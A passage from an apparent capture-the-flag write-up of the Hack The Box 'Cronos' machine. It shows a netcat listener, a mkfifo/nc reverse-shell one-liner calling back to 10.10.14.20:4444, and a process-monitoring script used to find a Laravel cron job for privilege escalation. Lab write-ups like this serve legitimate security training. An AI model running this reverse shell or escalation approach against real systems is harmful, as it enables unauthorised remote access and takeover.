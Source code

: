 ```bash
nc -lv 4444
```

This way doesn’t seem to work so maybe we are in front a older linux version. Let’s us this command instead.

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4444 >/tmp/f
```

## Gaining an Initial Foothold

![Untitled](/HTB/cronos-7.png)

We are in now, let’s find the user’s flag

![Untitled](/HTB/cronos-8.png)

## Escalating Privilege

I tried to enumerate de sudo -l privileges but a password is requested.

Other thing we can do is to search for SUID files but before that I realized that maybe the thing which are going to let me privesc is a cron job because the machine name gives us a clue of that. So I build a bash script that help us to monitorize this type of scheduled tasks.

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>\]" | grep -v "Apple"
    old_process=$new_process
done
```

This script help us to see what scheduled processes are running on the background.

```bash
< [moniProc.sh] <defunct>
< [moniProc.sh] <defunct>
< [moniProc.sh] <defunct>
< [moniProc.sh] <defunct>
> /usr/sbin/CRON -f
> /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
> php /var/www/laravel/artisan schedule:run
< /usr/sbin/CRON -f
< /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
< php /var/www/laravel/artisan schedule:run
< [kworker/u2:30]
< [kworker/u2:3]
< [kworker/u2:4]
```
